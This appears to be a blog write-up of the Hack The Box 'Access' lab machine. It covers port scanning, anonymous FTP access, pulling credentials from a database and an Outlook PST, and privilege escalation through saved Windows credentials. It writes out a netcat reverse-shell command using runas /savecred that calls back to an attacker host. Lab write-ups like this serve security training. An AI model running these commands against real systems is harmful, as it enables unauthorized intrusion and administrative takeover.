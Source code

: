 ```yaml
---
layout: post
title: Hack The Box, Access
tags: [Hack The Box, Windows, Impacket, Readpst]
---
```

![accesslogo](/boxes/htb/access/accessLogo.PNG)

### i. Port Scan
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
```
### ii. Enumeration
There are three services that are available to enumerate. To start off, we take a look at the http/website on port 80.  
![website](/boxes/htb/access/website.PNG)   
After enumerating this service nothing was found. Next up is port 23 telnet. Connecting to telnet gives us a prompt for credentials. Trying a few common credentials didn't work. We will put this on the backburner for now.

Let's take a look at port 21 the FTP service. Nmap indicated anonymous FTP login was allowed and we were able to login and enumerate the FTP server.  
![ftpdirectories](/boxes/htb/access/ftpdir.PNG)    

A file backup.mdb was found in the Backups directory and we download a copy of it.  
![backupfile](/boxes/htb/access/backups.PNG)  

In the Engineer folder there is a file called Access Control.zip and we also transfer it to our machine.  
![accesscontrolfile](/boxes/htb/access/engineer.PNG)
  
Attempting to unzip the Access Control.zip file we run into password protection. We'll add this to the backburner list and look at the backup.mdb file. The backup.mdb file is a Microsoft Access Database. We transfer it to a Windows virtual machine and open it up.

Within the auth_user table credentials were found:

| username     | password          |
|--------------|-------------------|
| admin        | admin             |
| engineer     | access4u@security |
| backup_admin | admin             |

Trying the credentials via telnet did not work. Using the password `access4u@security` on the Access Control.zip file resulted in successfully extracting a file called Access Control.pst. Running the `file` command tells us this is a Microsoft Outlook PST.

Using the following command convert the pst to a mbox file and read its contents:
```
readpst Access\ Control.pst
cat Access\ Control.mbox
```
Within the mbox file we find an email with another set of credentials:  
![emailcreds](/boxes/htb/access/email.PNG)  
The credentials in the email gave us access to the machine via telnet and the user flag was found.  
![userflag](/boxes/htb/access/user.PNG)
### iii. Privilege Escalation
When performing Windows enumeration one of the things to check for is saved credentials. Running the following command lists any stored credentials:
```
cmdkey /list
```
![storedcreds](/boxes/htb/access/creds.PNG)  
Since stored credentials are available, there are a few options to obtain the root flag. The route we will take is sending ourselves an administrative shell. Within the Kali Linux distribution, you can find precompiled Windows binaries under the following directory:
 ```
 /usr/share/windows-binaries
 ```
 Using impacket's smbserver.py create an SMB share on the attack machine and transfer over a netcat binary.
 ```
 python smbserver.py sharename /share
 
 Copying files onto the victim machine:
 copy \\<ip address>\sharename\nc.exe .
 ```
Next set up a listener on the attack machine to prepare for the incoming shell:
```
nc -nlvp 443
```
Once the listener is setup, send a shell with the following command:
```
runas /user:access\administrator /savecred "cmd /c c:\users\security\nc.exe -nv <ip address> 443 -e c:\windows\system32\cmd.exe
```
The shell is received and is running as an administrative user! You can now capture the root flag!
![rootshell](/boxes/htb/access/rootshell.PNG)



